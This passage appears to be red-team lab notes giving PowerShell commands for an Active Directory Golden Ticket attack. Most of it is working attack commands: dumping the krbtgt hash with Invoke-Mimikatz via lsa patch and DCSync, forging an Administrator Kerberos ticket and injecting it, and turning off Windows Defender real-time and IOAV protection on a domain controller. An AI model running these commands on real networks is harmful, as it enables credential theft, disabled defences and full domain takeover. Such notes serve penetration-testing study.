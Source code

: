 ### <span style="color:#F1C232">3. Execute mimikatz on DC as DA to get krbtgt hash</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computer-name>
```

### <span style="color:#F1C232">4. Create a ticket on any machine ( "pass the ticket" attack )</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain-name-goes-here /sid:sid-goes-here /krbtgt:hash-goes-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

> **/ptt** : Inject the ticket in the current Powershell process/does not have the ticket on disk
> **/ticket** : Saves the ticket to a file for later use
**/startoffset** : Put proper offset values according to the domain policy using 
> **(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"** else the session might get blocked/not created
{: .prompt-info }

### <span style="color:#F1C232">5. List Kerberos services available</span>
 
```powershell
klist
```
## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">To use the DCSync feature for getting krbtg hash execute the below command with DA privileges</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
> Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
{: .prompt-info }

### <span style="color:#F1C232">Using NTML hash of KRBTG to create a Golden Ticket</span>

+ Requires DA privs which ca be done by used over-pass-the-hash to start a PowerShell session as domain admin.
+ Enter a PSSession to the domain controller and dump the hashes.

```powershell
# Enter session
powershell -ep bypass
$sess = New-PSSession -ComputerName <computer-name>
Enter-PSSession $sess

# Bypass Protections
[star-dc]:PS> Set-MpPreference -DisableRealtimemonitoring $true 
[star-dc]:PS> Set-MpPreference -DisableIOAVProtection $true

# exit PSRemote session
exit

# Get the KRBTG hash
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
[star-dc]:PS> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
[star-dc]:PS> Invoke-Mimikatz
```